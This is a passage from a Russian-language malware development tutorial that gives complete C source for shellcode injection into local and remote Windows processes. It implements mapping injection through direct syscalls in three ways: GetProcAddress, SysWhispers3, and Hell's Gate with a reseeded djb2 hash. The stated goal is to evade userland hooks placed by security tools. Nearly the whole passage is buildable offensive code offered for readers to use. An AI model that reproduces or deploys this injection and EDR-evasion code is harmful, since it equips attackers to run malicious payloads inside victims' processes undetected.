PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);
// Getting the EAT of Ntdll
PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
return 0x01;
//--------------------------------------------------------------------------
// Initializing the 'Table' structure
VX_TABLE Table = { 0 };
Table.NtAllocateVirtualMemory.dwHash = NtAllocateVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
return 0x1;
Table.NtWriteVirtualMemory.dwHash = NtWriteVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWriteVirtualMemory))
return 0x1;
Table.NtProtectVirtualMemory.dwHash = NtProtectVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtProtectVirtualMemory))
return 0x1;
Table.NtCreateThreadEx.dwHash = NtCreateThreadEx_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtCreateThreadEx))
return 0x1;
//--------------------------------------------------------------------------
// injection code - calling the 'ClassicInjectionViaSyscalls' function
// If local injection
#ifdef LOCAL_INJECTIONif (!ClassicInjectionViaSyscalls(&Table, (HANDLE)-1, Payload, sizeof(Payload)))
return 0x1;
#endif // LOCAL_INJECTION// If remote injection
#ifdef REMOTE_INJECTION// Open a handle to the target process
printf("[i] Targeting process of id : %d \n", PROCESS_ID);
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PROCESS_ID);
if (hProcess == NULL) {
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
return -1;
}
if (!ClassicInjectionViaSyscalls(&Table, hProcess, Payload, sizeof(Payload)))
return 0x1;
#endif // REMOTE_INJECTIONreturn 0x00;
}Локальная и удаленная инъекция
Поскольку реализованная функция ClassicInjectionViaSyscalls может работать как на уровне локального процесса, так и на уровне удаленного процесса, был построен макрокод препроцессора для целевого локального процесса, если определено LOCAL_INJECTION.
Код препроцессора показан ниже.
C:
#define LOCAL_INJECTION
#ifndef LOCAL_INJECTION
#define REMOTE_INJECTION
// Устанавливаем идентификатор целевого процесса PID
#define PROCESS_ID 18784
#endif // !LOCAL_INJECTION#define LOCAL_INJECTION можно закомментировать, чтобы нацелиться на удаленный процесс. В этом случае будет целевым процесс с PID, равным PROCESS_ID.
Если #define LOCAL_INJECTION не закомментирован, что является настройкой по умолчанию в предоставленном коде, то используется псевдо-дескриптор локального процесса, равный (HANDLE)-1.
Демо
Использование реализации SysWhispers локально.
Использование реализации SysWhispers удаленно
Использование реализации Hell's Gate локально.
Использование реализации Hell's Gate удаленно.
Давайте теперь перепишем эту технику: Инъекция отображаемой памяти | Цикл статей "Изучение вредоносных программ"
Введение
В этой части техника инъекции маппинга, обсуждаемая ранее, будет реализована с помощью прямых системных вызовов, заменяя WinAPI на их эквивалент системных вызовов:
CreateFileMapping заменяется на NtCreateSection
MapViewOfFile заменяется на NtMapViewOfSection
CloseHandle заменяется на NtClose
UnmapViewOfFile заменяется на NtUnmapViewOfSection
Параметры Syscall
В этом разделе будут рассмотрены системные вызовы, которые будут использоваться, и их параметры будут объяснены.
NtCreateSection
Это результирующий системный вызов из CreateFileMapping WinAPI. NtCreateSection показан ниже.
C:
NTSTATUS NtCreateSection(
OUT PHANDLE SectionHandle, // Указатель на переменную HANDLE, которая получает дескриптор объекта секции
IN ACCESS_MASK DesiredAccess, // Тип прав доступа к дескриптору секции
IN POBJECT_ATTRIBUTES ObjectAttributes, // Указатель на структуру OBJECT_ATTRIBUTES (установить в NULL)
IN PLARGE_INTEGER MaximumSize, // Максимальный размер секции
IN ULONG SectionPageProtection, // Защита, которая будет установлена на каждой странице в секции
IN ULONG AllocationAttributes, // Атрибуты выделения секции (флаги SEC_XXX)
IN HANDLE FileHandle // Опционально указывает дескриптор открытого файла (установить в NULL)
);Хотя между NtCreateSection и CreateFileMapping есть много схожего, некоторые параметры новые. Во-первых, параметр DesiredAccess описывает тип прав доступа к дескриптору секции. Список параметров показан на изображении ниже.
В этом модуле достаточно использовать либо SECTION_ALL_ACCESS, либо SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE.
Далее, параметр MaximumSize - это указатель на структуру LARGE_INTEGER. Единственный элемент, который нужно заполнить, это элемент LowPart, который будет равен размеру полезной нагрузки. Структура LARGE_INTEGER показана ниже.
C:
typedef union _LARGE_INTEGER {
struct {
DWORD LowPart;
LONG HighPart;
} DUMMYSTRUCTNAME;
struct {
DWORD LowPart;
LONG HighPart;
} u;
LONGLONG QuadPart;
} LARGE_INTEGER;Наконец, параметр AllocationAttributes определяет битовую маску флагов SEC_XXX, которая определяет атрибуты выделения секции. Список флагов можно найти здесь под параметром flProtect. В этом модуле этот параметр будет установлен в значение SEC_COMMIT.
NtMapViewOfSection
Это результирующий системный вызов из MapViewOfFile WinAPI. NtMapViewOfSection показан ниже.
C:
NTSTATUS NtMapViewOfSection(
IN HANDLE SectionHandle, // HANDLE объекта секции, созданного 'NtCreateSection'
IN HANDLE ProcessHandle, // Дескриптор процесса, которому нужно отобразить вид
IN OUT PVOID *BaseAddress, // Указатель на переменную PVOID, которая получает базовый адрес отображения
IN ULONG ZeroBits, // установить в NULL
IN SIZE_T CommitSize, // установить в NULL
IN OUT PLARGE_INTEGER SectionOffset, // установить в NULL
IN OUT PSIZE_T ViewSize, // Указатель на переменную SIZE_T, которая содержит размер выделяемой памяти
IN SECTION_INHERIT InheritDisposition, // Как вид должен быть разделен с дочерними процессами
IN ULONG AllocationType, // тип выделения, который будет выполнен (установить в NULL)
IN ULONG Protect // Защита, которая будет установлена на каждой странице в секции
);В этом модуле параметр SectionHandle будет получен из вызова NtCreateSection. Параметр ProcessHandle будет равен текущему дескриптору процесса, который может быть получен с помощью функции GetCurrentProcess.
Параметр BaseAddress получает базовый адрес отображения. Значение этого параметра будет указано позже.
Параметр ViewSize содержит размер выделяемой памяти, который будет равен размеру полезной нагрузки.
Параметр InheritDisposition определяет, как вид должен быть разделен с дочерними процессами. В этом модуле этот параметр будет установлен в значение 'ViewUnmap', что означает, что дочерние процессы не будут иметь доступа к этому виду. Наконец, параметр Protect устанавливает уровень защиты для каждой страницы в секции. В этом модуле этот параметр будет установлен в значение 'PAGE_READWRITE', что означает, что страницы можно будет читать и записывать.
NtUnmapViewOfSection
Это результирующий системный вызов из UnmapViewOfFile WinAPI. NtUnmapViewOfSection показан ниже.
C:
NTSTATUS NtUnmapViewOfSection(
IN HANDLE ProcessHandle, // Дескриптор процесса, которому нужно отменить отображение
IN PVOID BaseAddress // Базовый адрес отображения, который был предоставлен ранее
);
Код:
В этом модуле параметр ProcessHandle будет равен текущему дескриптору процесса, который может быть получен с помощью функции GetCurrentProcess. Параметр BaseAddress будет базовым адресом отображения, который был предоставлен ранее.
NtClose Это результирующий системный вызов из CloseHandle WinAPI. NtClose показан ниже.
C:
NTSTATUS NtClose(
IN HANDLE Handle // Дескриптор, который нужно закрыть
);В этом модуле параметр Handle будет либо дескриптором секции, полученным из вызова NtCreateSection, либо дескриптором процесса, который может быть получен с помощью функции GetCurrentProcess.
Реализация с использованием GetProcAddress и GetModuleHandle
Следующим шагом является реализация метода инъекции через отображение с использованием ранее показанных системных вызовов. Аналогично предыдущему модулю, метод будет показан тремя способами, начиная с использования GetProcAddress и GetModuleHandle.
Структура Syscall создается и инициализируется с помощью InitializeSyscallStruct, которая содержит адреса используемых системных вызовов, как показано ниже.
Код:
// структура, используемая для хранения системных вызовов
typedef struct _Syscall {
fnNtCreateSection pNtCreateSection;
fnNtMapViewOfSection pNtMapViewOfSection;
fnUnmapViewOfSection pNtUnmapViewOfSection;
fnNtClose pNtClose;
fnNtCreateThreadEx pNtCreateThreadEx;
}Syscall, * PSyscall;
// функция, используемая для заполнения входной структуры 'St'
BOOL InitializeSyscallStruct (OUT PSyscall St) {
HMODULE hNtdll = GetModuleHandle(L"NTDLL.DLL");
if (!hNtdll) {
printf("[!] GetModuleHandle не удалось. Ошибка: %d \n", GetLastError());
return FALSE;
}
St->pNtCreateSection = (fnNtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
St->pNtMapViewOfSection = (fnNtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
St->pNtUnmapViewOfSection = (fnUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
St->pNtClose = (fnNtClose)GetProcAddress(hNtdll, "NtClose");
St->pNtCreateThreadEx = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");
// проверка, пропустил ли GetProcAddress системный вызов
if (St->pNtCreateSection == NULL || St->pNtMapViewOfSection == NULL || St->pNtUnmapViewOfSection == NULL || St->pNtClose == NULL || St->pNtCreateThreadEx == NULL)
return FALSE;
else
return TRUE;
}Функции LocalMappingInjectionViaSyscalls и RemoteMappingInjectionViaSyscalls отвечают за инъекцию полезной нагрузки (pPayload) в локальный и удаленный процесс (hProcess) соответственно.
Обе функции показаны ниже.
C:
BOOL LocalMappingInjectionViaSyscalls(IN PVOID pPayload, IN SIZE_T sPayloadSize) {
HANDLE hSection = NULL;
HANDLE hThread = NULL;
PVOID pAddress = NULL;
NTSTATUS STATUS = NULL;
SIZE_T sViewSize = NULL;
LARGE_INTEGER MaximumSize = {
.HighPart = 0,
.LowPart = sPayloadSize
};
Syscall St = { 0 };
// Инициализация структуры 'St' для получения адресов системных вызовов
if (!InitializeSyscallStruct(&St)) {
printf("[!] Could Not Initialize The Syscall Struct \n");
return FALSE;
}
//--------------------------------------------------------------------------
// Выделение локального отображения
if ((STATUS = St.pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
if ((STATUS = St.pNtMapViewOfSection(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sViewSize);
//--------------------------------------------------------------------------
// Запись полезной нагрузки
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
memcpy(pAddress, pPayload, sPayloadSize);
printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pAddress);
//--------------------------------------------------------------------------
// Выполнение полезной нагрузки с помощью создания потока
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));
//--------------------------------------------------------------------------
// Отключение локального отображения - только после выполнения полезной нагрузки
if ((STATUS = St.pNtUnmapViewOfSection((HANDLE)-1, pAddress)) != 0) {
printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Закрытие дескриптора секции
if ((STATUS = St.pNtClose(hSection)) != 0) {
printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}
C:
BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
HANDLE hSection = NULL;
HANDLE hThread = NULL;
PVOID pLocalAddress = NULL,
pRemoteAddress = NULL;
NTSTATUS STATUS = NULL;
SIZE_T sViewSize = NULL;
LARGE_INTEGER MaximumSize = {
.HighPart = 0,
.LowPart = sPayloadSize
};
Syscall St = { 0 };
// Инициализация структуры 'St' для получения адресов системных вызовов
if (!InitializeSyscallStruct(&St)) {
printf("[!] Could Not Initialize The Syscall Struct \n");
return FALSE;
}
// Выделение отображения в удаленном процессе
if ((STATUS = St.pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
if ((STATUS = St.pNtMapViewOfSection(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Local Address At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);
// Запись полезной нагрузки в локальное отображение
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
memcpy(pLocalAddress, pPayload, sPayloadSize);
printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);
// Получение адреса в удаленном процессе
if ((STATUS = St.pNtMapViewOfSection(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Remote Address At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);
// Запуск полезной нагрузки в удаленном процессе
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Thread Of Entry 0x%p In The Remote Process ... ", pRemoteAddress);
if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));
// Освобождение локального отображения
if ((STATUS = St.pNtUnmapViewOfSection((HANDLE)-1, pLocalAddress)) != 0) {
printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Закрытие дескриптора секции
if ((STATUS = St.pNtClose(hSection)) != 0) {
printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}Функцию NtUnmapViewOfSection следует выполнять только после завершения выполнения полезной нагрузки. Попытка отмены отображения локального представления во время выполнения полезной нагрузки может привести к нарушению выполнения полезной нагрузки или вызвать сбой процесса. В качестве альтернативы можно использовать системный вызов NtWaitForSingleObject для ожидания завершения потока, после чего можно выполнить системный вызов NtUnmapViewOfSection для очистки отображенной полезной нагрузки. Однако это остается на усмотрение читателя.
Реализация с использованием SysWhispers
В данной реализации используется SysWhispers3 для обхода пользовательских хуков через прямые системные вызовы. Для создания необходимых файлов для этой реализации используется следующая команда.
Код:
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtCreateSection,NtMapViewOfSection,NtUnmapViewOfSection,NtClose,NtCreateThreadEx -o SysWhispers -v*Генерируются три файла: SysWhispers.h, SysWhispers.c и SysWhispers-asm.x64.asm.
Следующим шагом является импорт этих файлов в Visual Studio, как показано было выше.
Ниже приведены функции LocalMappingInjectionViaSyscalls и RemoteMappingInjectionViaSyscalls.
C:
BOOL LocalMappingInjectionViaSyscalls(IN PVOID pPayload, IN SIZE_T sPayloadSize) {
HANDLE hSection = NULL;
HANDLE hThread = NULL;
PVOID pAddress = NULL;
NTSTATUS STATUS = NULL;
SIZE_T sViewSize = NULL;
LARGE_INTEGER MaximumSize = {
.HighPart = 0,
.LowPart = sPayloadSize
};
//--------------------------------------------------------------------------
// Выделение локального представления
if ((STATUS = NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
printf("[!] NtCreateSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
if ((STATUS = NtMapViewOfSection(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Выделен адрес: 0x%p размером: %d \n", pAddress, sViewSize);
//--------------------------------------------------------------------------
// Запись полезной нагрузки
printf("[#] Нажмите <Enter>, чтобы записать полезную нагрузку ... ");
getchar();
memcpy(pAddress, pPayload, sPayloadSize);
printf("\t[+] Полезная нагрузка скопирована с 0x%p по 0x%p \n", pPayload, pAddress);
//--------------------------------------------------------------------------
// Выполнение полезной нагрузки через создание потока
printf("[#] Нажмите <Enter>, чтобы запустить полезную нагрузку ... ");
getchar();
printf("\t[i] Запуск потока с точки входа 0x%p ... ", pAddress);
if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] ГОТОВО \n");
printf("\t[+] Поток создан с ID : %d \n", GetThreadId(hThread));
//--------------------------------------------------------------------------
// Отмена отображения локального представления - только после завершения выполнения полезной нагрузки
if ((STATUS = NtUnmapViewOfSection((HANDLE)-1, pAddress)) != 0) {
printf("[!] NtUnmapViewOfSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
// Закрытие дескриптора раздела
if ((STATUS = NtClose(hSection)) != 0) {
printf("[!] NtClose завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}
C:
BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
HANDLE hSection = NULL;
HANDLE hThread = NULL;
PVOID pLocalAddress = NULL,
pRemoteAddress = NULL;
NTSTATUS STATUS = NULL;
SIZE_T sViewSize = NULL;
LARGE_INTEGER MaximumSize = {
.HighPart = 0,
.LowPart = sPayloadSize
};
//--------------------------------------------------------------------------
// Выделение локального представления
if ((STATUS = NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
printf("[!] NtCreateSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
if ((STATUS = NtMapViewOfSection(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection [L] завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Локальная память выделена по адресу: 0x%p размером: %d \n", pLocalAddress, sViewSize);
//--------------------------------------------------------------------------
// Запись полезной нагрузки
printf("[#] Нажмите <Enter>, чтобы записать полезную нагрузку ... ");
getchar();
memcpy(pLocalAddress, pPayload, sPayloadSize);
printf("\t[+] Полезная нагрузка скопирована с 0x%p по 0x%p \n", pPayload, pLocalAddress);
//--------------------------------------------------------------------------
// Выделение удаленного представления
if ((STATUS = NtMapViewOfSection(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection [R] завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Удаленная память выделена по адресу: 0x%p размером: %d \n", pRemoteAddress, sViewSize);
//--------------------------------------------------------------------------
// Выполнение полезной нагрузки через создание потока
printf("[#] Нажмите <Enter>, чтобы запустить полезную нагрузку ... ");
getchar();
printf("\t[i] Запуск потока с точки входа 0x%p ... ", pRemoteAddress);
if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] ГОТОВО \n");
printf("\t[+] Поток создан с ID : %d \n", GetThreadId(hThread));
//--------------------------------------------------------------------------
// Отмена отображения локального представления - только после завершения выполнения полезной нагрузки
if ((STATUS = NtUnmapViewOfSection((HANDLE)-1, pLocalAddress)) != 0) {
printf("[!] NtUnmapViewOfSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
// Закрытие дескриптора раздела
if ((STATUS = NtClose(hSection)) != 0) {
printf("[!] NtClose завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}Реализация с использованием Hell's Gate
Последняя реализация для этого модуля использует Hell's Gate. Во-первых, убедитесь, что выполняются те же шаги, что и для настройки проекта Visual Studio с SysWhispers3.
В частности, включение MASM и изменение свойств для установки файла ASM для компиляции с использованием Microsoft Macro Assembler.
Обновление структуры VX_TABLE
C:
typedef struct _VX_TABLE {
VX_TABLE_ENTRY NtCreateSection;
VX_TABLE_ENTRY NtMapViewOfSection;
VX_TABLE_ENTRY NtUnmapViewOfSection;
VX_TABLE_ENTRY NtClose;
VX_TABLE_ENTRY NtCreateThreadEx;
} VX_TABLE, * PVX_TABLE;Обновление значения Seed Value
Новое значение семени будет использоваться вместо старого, чтобы изменить хэш-значения системных вызовов. Функция хеширования djb2 обновляется с новым значением Seed Value, приведенным ниже:
C:
DWORD64 djb2(PBYTE str) {
DWORD64 dwHash = 0x77347734DEADBEEF; // Старое значение: 0x7734773477347734
INT c;
while (c = *str++)
dwHash = ((dwHash << 0x5) + dwHash) + c;
return dwHash;
}Теперь необходимо сгенерировать хэш-значений djb2 для функций (Напишите консольную программу например):
C:
printf("#define %s%s 0x%p \n", "NtCreateSection", "_djb2", (DWORD64)djb2("NtCreateSection"));
printf("#define %s%s 0x%p \n", "NtMapViewOfSection", "_djb2", djb2("NtMapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtUnmapViewOfSection", "_djb2", djb2("NtUnmapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtClose", "_djb2", djb2("NtClose"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));Как только значения сгенерированы, добавьте их в начало проекта Hell's Gate:
C:
#define NtCreateSection_djb2 0x5687F81AC5D1497A
#define NtMapViewOfSection_djb2 0x0778E82F702E79D4
#define NtUnmapViewOfSection_djb2 0x0BF2A46A27B93797
#define NtClose_djb2 0x0DA4FA80EF5031E7
#define NtCreateThreadEx_djb2 0x2786FB7E75145F1AФункции LocalMappingInjectionViaSyscalls и RemoteMappingInjectionViaSyscalls
C:
BOOL LocalMappingInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
HANDLE hSection = NULL;
HANDLE hThread = NULL;
PVOID pAddress = NULL;
NTSTATUS STATUS = NULL;
SIZE_T sViewSize = NULL;
LARGE_INTEGER MaximumSize = {
.HighPart = 0,
.LowPart = sPayloadSize
};
//--------------------------------------------------------------------------
// Выделение локального представления
HellsGate(pVxTable->NtCreateSection.wSystemCall);
if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
printf("[!] NtCreateSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
HellsGate(pVxTable->NtMapViewOfSection.wSystemCall);
if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Выделен адрес: 0x%p размером: %ld \n", pAddress, sViewSize);
//--------------------------------------------------------------------------
// Запись полезной нагрузки
printf("[#] Нажмите <Enter>, чтобы записать полезную нагрузку ... ");
getchar();
memcpy(pAddress, pPayload, sPayloadSize);
printf("\t[+] Полезная нагрузка скопирована с 0x%p по 0x%p \n", pPayload, pAddress);
printf("[#] Нажмите <Enter>, чтобы запустить полезную нагрузку ... ");
getchar();
//--------------------------------------------------------------------------
// Выполнение полезной нагрузки через создание потока
printf("\t[i] Запуск потока с точки входа 0x%p ... ", pAddress);
HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] ГОТОВО \n");
printf("\t[+] Поток создан с ID : %d \n", GetThreadId(hThread));
//--------------------------------------------------------------------------
// Отмена отображения локального представления - только после завершения выполнения полезной нагрузки
HellsGate(pVxTable->NtUnmapViewOfSection.wSystemCall);
if ((STATUS = HellDescent((HANDLE)-1, pAddress)) != 0) {
printf("[!] NtUnmapViewOfSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
// Закрытие дескриптора раздела
HellsGate(pVxTable->NtClose.wSystemCall);
if ((STATUS = HellDescent(hSection)) != 0) {
printf("[!] NtClose завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}
C:
BOOL RemoteMappingInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
HANDLE hSection = NULL;
HANDLE hThread = NULL;
PVOID pLocalAddress = NULL,
pRemoteAddress = NULL;
NTSTATUS STATUS = NULL;
SIZE_T sViewSize = NULL;
LARGE_INTEGER MaximumSize = {
.HighPart = 0,
.LowPart = sPayloadSize
};
//--------------------------------------------------------------------------
// Выделение локального представления
HellsGate(pVxTable->NtCreateSection.wSystemCall);
if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
printf("[!] NtCreateSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
HellsGate(pVxTable->NtMapViewOfSection.wSystemCall);
if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection [L] завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Локальная память выделена по адресу: 0x%p размером: %d \n", pLocalAddress, sViewSize);
//--------------------------------------------------------------------------
// Запись полезной нагрузки
printf("[#] Нажмите <Enter>, чтобы записать полезную нагрузку ... ");
getchar();
memcpy(pLocalAddress, pPayload, sPayloadSize);
printf("\t[+] Полезная нагрузка скопирована с 0x%p по 0x%p \n", pPayload, pLocalAddress);
//--------------------------------------------------------------------------
// Выделение удаленного представления
HellsGate(pVxTable->NtMapViewOfSection.wSystemCall);
if ((STATUS = HellDescent(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
printf("[!] NtMapViewOfSection [R] завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Удаленная память выделена по адресу: 0x%p размером: %d \n", pRemoteAddress, sViewSize);
//--------------------------------------------------------------------------
// Выполнение полезной нагрузки через создание потока
printf("[#] Нажмите <Enter>, чтобы запустить полезную нагрузку ... ");
getchar();
printf("\t[i] Запуск потока с точки входа 0x%p ... ", pRemoteAddress);
HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] ГОТОВО \n");
printf("\t[+] Поток создан с ID: %d \n", GetThreadId(hThread));
//--------------------------------------------------------------------------
// Отмена отображения локального представления - только после завершения выполнения полезной нагрузки
HellsGate(pVxTable->NtUnmapViewOfSection.wSystemCall);
if ((STATUS = HellDescent((HANDLE)-1, pLocalAddress)) != 0) {
printf("[!] NtUnmapViewOfSection завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
// Закрытие дескриптора раздела
HellsGate(pVxTable->NtClose.wSystemCall);
if ((STATUS = HellDescent(hSection)) != 0) {
printf("[!] NtClose завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}
return TRUE;
}Обновление главной функции
Главная функция должна быть обновлена, чтобы вызывать LocalMappingInjectionViaSyscalls вместо payload function. Функция будет использовать выше сгенерированные хэши, как показано ниже.
C:
INT main() {
// Getting the PEB structure
PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
return 0x1;
// Getting the NTDLL module
PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);
// Getting the EAT of Ntdll
PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
